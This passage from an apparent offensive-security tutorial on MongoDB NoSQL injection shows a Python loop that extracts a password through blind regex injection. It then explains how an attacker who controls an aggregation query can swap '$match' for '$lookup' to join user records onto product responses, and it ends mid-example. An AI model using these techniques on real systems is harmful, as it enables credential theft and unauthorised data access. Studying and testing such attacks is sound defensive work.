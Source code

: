 ```python
# Keep searching until whole string found
def search(test_function):
    found = ""
    while True:
        found += search_once(test_function, prefix=found)
        print(found)

        if test_function(fr'^{found}$'):
            return found

password = search(test_password)
print(password)
```

## Full injections

Sometimes, you may have a larger injection where you **control the whole query**. You can recognize this commonly by a [`$match`](https://www.mongodb.com/docs/manual/reference/operator/aggregation/match/) key in your original input query that the application sends by itself. The server may have an API endpoint for easy querying of products:

```json
POST /api/products HTTP/1.1
Content-Type: application/json
...

[{
  "$match": {
    "instock": true
  }
}]
```

### Aggregate functions (`$match` -> `$lookup`)

The front end may always use the `$match` aggregation, but we as the attacker can use different keywords to perform different actions. A useful one is [`$lookup`](https://www.mongodb.com/docs/manual/reference/operator/aggregation/lookup/) which performs a JOIN operation between two collections. This means the response JSON will include extra keys you define from another collection.&#x20;

The JOIN operation combines collections but does so conditionally. You need to provide one key from the original collection and one from the new collection. Where these keys are the same, all values of the new collection are added to the response. Often you want to do this with the `_id` key if the products are numbered 1,2,3... and your users are as well. Then every `n`th product will also include the `n`th user:

{% tabs %}
{% tab title="Request" %}
In this attack we try to fetch from the `users` collection where the product `_id` matches with the users `_id`

<pre class="language-json"><code class="lang-json">POST /api/products HTTP/1.1
Content-Type: application/json
...
